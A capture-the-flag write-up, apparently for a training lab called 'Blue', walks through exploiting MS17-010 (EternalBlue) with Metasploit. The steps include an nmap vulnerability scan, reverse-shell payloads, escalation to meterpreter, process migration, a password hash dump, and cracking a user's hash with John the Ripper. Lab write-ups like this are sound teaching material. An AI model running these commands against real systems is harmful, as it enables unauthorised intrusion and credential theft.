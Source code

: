 # Blue

## Task 1

Scan the machine for open ports and vulnerabilities using nmap.

```
nmap -sVC --script vuln  10.10.91.185
```

<img src="images/02.Blue/01.png">

<img src="images/02.Blue/02.png">

From the scan results we can see that the machine is vulnerable to ms17-010.

## Task 2

Let's open metasploit.

```
msfconsole -q
```

Search for the exploit ms17-010 and use exploit/windows/smb/ms17_010_eternalblue.

```
search ms17-010
```

```
use 0
```

<img src="images/02.Blue/03.png">

### Approach 1

The payload is set by default to windows/x64/meterpreter/reverse tcp.

See the available options and change the rport and lhost.

```
show options
```

```
set rhosts 10.10.91.185
```

```
set lhost tun0
```

<img src="images/02.Blue/04.png">

Run the exploit.

```
exploit
```

We now got a meterpreter shell. Let's quickly find out the information about the machine. We are logged in as nt authority\system. Now we have all privileges to the machine.

<img src="images/02.Blue/05.png">

<img src="images/02.Blue/06.png " height="400">

### Approach 2

Set the payload to windows/x64/shell/reverse_tcp.

```
set payload windows/x64/shell/reverse_tcp
```
See the available options and change the rport and lhost.

```
show options
```

```
set rhosts 10.10.91.185
```

```
set lhost tun0
```

<img src="images/02.Blue/07.png">

Run the exploit.

```
exploit
```
We now got a shell and we will elevate this shell to meterpreter shell. Background the shell by hitting Ctrl+Z.

<img src="images/02.Blue/08.png">

Use the module post/multi/manage/shell_to_meterpreter to get a meterpreter shell from the existing non-meterpreter shell.

Set lhost, session and run it.

```
set lhost tun0
```

```
set session 2
```

```
exploit
```

<img src="images/02.Blue/09.png">

<img src="images/02.Blue/10.png">

## Task 3

Let's check whether we are running as nt authority\system or not using getsystem.

```
getsystem
```

We are already running as SYSTEM and run ps to list all the processes.

```
ps
```

<img src="images/02.Blue/11.png">

We will now migrate to a different process that is running as NT AUTHORITY\SYSTEM.

```
migrate 704
```

<img src="images/02.Blue/12.png" height="100">

## Task 4

We can run hashdump in the meterpreter shell to get the hashes.

<img src="images/02.Blue/13.png">

Then we will crack the hash of user Jon with John The Ripper.

```
john hash.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
```

<img src="images/02.Blue/14.png">

## Task 5

Now let's find the flags. The first flag is located in the location C:\ .

<img src="images/02.Blue/15.png">

The second flag is located at the location where passwords are stored. The passwords are stored in SAM file. So, the second flag would be in the location C: \windows\system32\config.

<img src="images/02.Blue/16.png" height="100">

<img src="images/02.Blue/17.png" height="100">

The third flag is located in the Documents folder of the user Jon.

<img src="images/02.Blue/18.png" height="400">
